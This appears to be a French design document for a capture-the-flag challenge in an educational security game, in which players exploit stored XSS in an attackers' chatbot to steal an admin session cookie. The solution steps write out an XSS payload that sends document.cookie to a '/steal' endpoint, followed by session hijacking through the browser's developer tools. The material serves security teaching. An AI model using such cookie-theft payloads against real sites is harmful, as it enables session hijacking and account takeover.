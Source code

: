 == Challenge 6 _Cookie Admin_ : Mauvaise gestion des sessions <ch-6>

=== Description
Le joueur·euse a découvert l'existence d'une page vulnérable dans le système des attaquants. Cette page contient un chatbot de monitoring que les pirates sont en train de développer pour automatiser leur surveillance, mais qui contient des vulnérabilités selon les informations trouvées dans le script précédent. Ce chatbot possède des privilèges administrateur et le défi consiste à l'exploiter pour voler son cookie de session admin et obtenir les droits de suppression des données volées.\
Ce challenge permet de sensibiliser aux vulnérabilités XSS et à l'importance de la sécurisation des bots automatisés. Il montre comment les systèmes de surveillance en développement peuvent être détournés par des attaquants pour escalader leurs privilèges. Il met également en évidence les risques liés à la sécurité des cookies de session et l'importance de leur protection contre le vol et la manipulation, notamment par l'utilisation d'attributs de sécurité appropriés (HttpOnly, Secure, SameSite).

Pour ce faire, le participant·e reçoit le message suivant :
"_Grâce aux informations trouvées dans le script, vous avez découvert l'existence de la page `/admin/monitoring/bot_communication_panel_v2`. En vous rendant sur cette page, vous constatez qu'elle contient un chatbot que les attaquants sont en train de développer. Selon les commentaires trouvés dans le script précédent, ce chatbot contient des vulnérabilités exploitables. Le bot possède des privilèges administrateur pour pouvoir accéder à toutes les sections du portail. Vous devez exploiter ces vulnérabilités pour obtenir les droits nécessaires. Une fois les droits obtenus, vous serez redirigé vers la page de suppression des fichiers volés, supprimés les et *un message de confirmation* apparaîtra._"

*Étapes pour résoudre le challenge :*
+ Tester l'injection XSS dans le champ Message : `<script>alert(1)</script>`.
+ Exfiltrer le cookie de session "admin" en utilisant une injection XSS dans le champ Message du chat via la payload : `<script>fetch('/steal?cookie='+document.cookie)</script>` et attendre que le bot ouvre la demande.
+ Récupérer le cookie volé `admin_session=<COOKIE_VALUE>`
+ Ouvrir les outils de développement du navigateur, aller dans l'onglet Application, puis dans la section Cookies.
+ Coller le cookie volé dans le champ de saisie du cookie de session.
+ Une fois le cookie injecté, le joueur·euse est renvoyé sur la page avec les fichiers sensibles pour les supprimer.
+ Le serveur affiche un message de confirmation `all_files_deleted` indiquant que tous les fichiers ont été supprimés.

*Outils nécessaires :* Un navigateur web avec les outils de développement pour intercepter et manipuler les cookies, ainsi qu'un éditeur de texte pour écrire le script XSS.

*Indices graduels :*
- Le premier indice expliquer que les balises HTML ne sont pas échappées dans le champ Message, ce qui permet d'injecter du code JavaScript. "_Les champs du formulaire ne filtrent pas correctement le code HTML, les balises HTML ne sont pas échappées, vous pouvez exécuter du JavaScript._"
- Le second indice suggère le type d'attaque à utiliser. "_Injecte du JavaScript malveillant dans un message pour voler les cookies quand le chatbot le traite._"
- Le troisième indice explique la récupération du cookie. "_Une fois le cookie récupéré, utilise F12, Application, puis Cookies pour remplacer ta session par celle du bot admin._"

*Flag attendu* : la réponse du serveur `ALL_FILES_DELETED`, ce qui montre au joueur·euse que tous les fichiers ont été supprimés avec succès. 

Une fois les fichiers supprimés, le joueur·euse a réussi à neutraliser une partie importante de l'attaque en empêchant les cybercriminels d'exploiter les données sensibles des patients volées. Le joueur·euse peut passer au défi suivant pour bloquer l'attaquant.

=== Tools
//TODO